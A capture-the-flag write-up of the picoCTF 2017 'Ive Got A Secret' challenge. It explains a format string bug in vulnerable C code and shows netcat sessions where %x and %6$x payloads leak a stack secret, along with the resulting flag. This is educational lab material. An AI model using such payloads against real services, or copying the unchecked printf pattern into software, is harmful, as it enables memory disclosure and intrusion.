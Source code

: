 # Ive Got A Secret

```
Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:58570.
HINTS
This is a beginning format string attack.
```

Looking at the main function, we can se 2 things. The value of secret is a local variable in the main function and a user string is directly printed using printf.

```C
int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    ...
    
    ...
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);
    ...

    ...
    return 0;
}

```

When printf is given a specified to print out a decimal, float, hex number, pointer, or some other value of that type (basically not a string), it looks to the stack for the arguments that should have been passed to it. If nothing is there, it simply prints the value from the given position on the stack and increments the stack pointer. In this case it turns out that the value for secret is the sixth element on the stack during the call to printf. Therefore if we just give the program 6 %x's we will see the value of the secret and can then input that value and get a shell. This one gives us the flag, we don't even have to cat it.

```
$ nc shell2017.picoctf.com 58570
Give me something to say!
%x.%x.%x.%x.%x.%x
40.f7fc7c20.8048792.1.ffffdd34.d3e8ae6e
Now tell my secret in hex! Secret: d3e8ae6e
326edd4743c7046d72d29e911ae8a412
Wow, you got it!
$ ls
README.md  secret  secret.c
$
```

This solution works but a slightly more elegant method uses the $ operator in format string to directly reference the 6th argument that should have been passed to printf, rather, the 6th element on the stack, the value of secret.

```
$ nc shell2017.picoctf.com 58570
Give me something to say!
%6$x
bb37c7c1
Now tell my secret in hex! Secret: bb37c7c1
326edd4743c7046d72d29e911ae8a412
Wow, you got it!
$
```


